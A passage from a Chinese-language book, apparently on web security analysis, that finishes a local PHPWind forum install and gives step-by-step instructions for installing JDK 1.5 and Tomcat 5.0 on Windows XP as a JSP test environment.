

图 1-81 设置数据库资料与管理员账号

完成之后，我们的数据库就安装完成，同时我们的论坛也安装完成了，如图 1-82 所示。



图 1-82 论坛安装完成

其中论坛的 URL 为 `http://localhost/upload`。首页则为 `http://localhost/upload/index.php`。我们打开来看看，就见到了论坛的首页了，如图 1-83 所示。



图 1-83 论坛安装成功

这样，我们在搭建好的 PHP 环境中轻松地发布了 PHPWind 论坛。其他 PHP 系统的安装也大多数是如此，这样以后大家在分析 PHP 系统的过程中，就可以自己搭建一个本地平台来测试其安全性了。

## 1.4 JSP服务器的搭建

我们要分析 JSP 程序中存在的安全问题，自然离不开服务器的测试。所以本节将引导你一步一步搭建一个 JSP 运行的基本环境。目前 JSP 环境应用最多的是利用 JDK 和 Tomcat 来搭建，所以本节就按这种搭配来完成 JSP 环境的搭建。学完本节后，你将可以手动安装与配置 JDK 1.5 + Tomcat 5.0 这类基本环境。

下面以 JDK 1.5 及 Tomcat 5.0 为例来讲述 JSP 的 Web 应用环境的搭建。我所用的操作系统为 Windows XP SP2，Windows 操作系统的其他版本安装过程也差不多。

### 1.4.1 JDK的安装与配置

在安装 Tomcat 之前，必须先安装 JDK。如果没有 JDK 的话，可以到 SUN 的官方网站 http://www.sun.com/download/ 上免费下载，如图 1-84 所示。



图 1-84 SUN 公司官方网站上的下载页面

我们进入 http://www.sun.com/download/ 页面之后，单击“SDKs (Software Development Kits)”链接进入 JDK 的下载页面。我们选择 Java 2 Platform Standard Edition (J2SE) for Windows，单击右边的“download”按钮即可下载，如图 1-85 所示。



图 1-85 JDK 下载页面

下载到本地计算机之后就可以安装了。单击这个文件我们就可以进入安装界面了，如图 1-86 所示。



图 1-86 J2SDK 的安装界面

接下来就是要选择安装在机器硬盘中的目录，单击“Change...”按钮就可以改变安装目录，这里我们不需要更改目录，用默认安装路径即可。当我们单击“安装”按钮后，会显示“下一步”按钮；当安装完成之后，就会显示如图 1-87 所示的对话框，单击“完成”按钮就可以结束 JDK 的安装了。



图 1-87 JDK 完成安装

这样 JDK 就算是安装完成了，不过对 JDK 有很多要设置的地方，在后面会详细讲解。

### 1.4.2 Tomcat的安装

Tomcat 是一个免费的开源 Servlet 容器，它是 Apache 基金会的 Jakarta 项目中的一个核心项目，由 Apache、Sun 和其他一些公司及个人共同开发而成。由于有了 Sun 的参与和支持，最新的 Servlet 和 JSP 规范总能在 Tomcat 中得到体现。

Tomcat 受到很多人的欢迎，因为它运行时占用的资源非常少、扩展性好、支持负载均衡与邮件服务等开发应用系统常用功能，而且它还在不断改进和完善中。

我们可以从 http://tomcat.apache.org/ 上下载各个 Tomcat 版本，如图 1-88 所示。这里我下载的是 Tomcat 5.x 版本，单击进入 http://tomcat.apache.org/download-55.cgi，我们选择 5.0.28 下的 Windows Service Installer (pgp, md5) 下载就可以了，如图 1-89 所示。



图 1-88 Tomcat 的各个版本下载页面



图 1-89 下载 Tomcat 服务器

下载到本地计算机后，在安装之前，我们先在 C 盘根目录下建立一个 Tomcat 5.0 的文件夹，然后开始安装 Tomcat 服务器，双击 Tomcat 后就出现了如图 1-90 所示的界面。



图 1-90 Tomcat 的安装界面

我们一路点击“Next”按钮即可安装，不过有一个地方要我们选择安装类型，我们选择“Normal”就可以了，即默认选项，如图 1-91 所示。



图 1-91 选择安装类型

选完之后，我们一路点击“Next”按钮，最后到了选择服务器安装路径。还记得前面我们在 C 盘根目录下建立的那个 Tomcat 5.0 文件夹吗？我们就选它作为 Tomcat 服务器的安装文件夹，点击“Browse”按钮选择 `C:\Tomcat 5.0`，如图 1-92 所示。



图 1-92 选择服务器所要安装的路径

选完之后，我们点击“Next”按钮到了设置 Tomcat 服务器的页面，如图 1-93 所示。在这里我们需要设置服务器的默认端口，默认情况下是 8080，你可以把它改为 80，这里我们就不改了，默认它为 8080。还有就是当前管理员的账号和密码，默认情况下账号为 user，而密码则由我们自己设定。所以这里我们只需要设置一个密码就可以了，然后点击“Next”。



图 1-93 对服务器的一些选项进行设定

在设定完选项之后，点击“Next”就进入了 Java 虚拟机路径设置，即 JDK 的安装路径，如图 1-94 所示。这里我们不用设定，只需要按默认路径即可。这也是为什么我们要先装 JDK 的原因，因为 Tomcat 在安装时必须要有 Java 虚拟机的存在，否则安装会失败。



图 1-94 选择 Java 虚拟机的路径

选择完之后，我们点击“Install”按钮就可以真正安装服务器了。安装时我们不需要做任何事情，当安装完成之后，我们就要设置一些选项了，如图 1-95 所示。不过默认情况下，这两个选项都是勾选的，我们按默认即可，不需要修改，只需要点击“Finish”按钮就可以完成 Tomcat 服务器的安装了。



图 1-95 Tomcat 服务器安装完成

### 1.4.3 环境变量的设置及JSP环境的测试

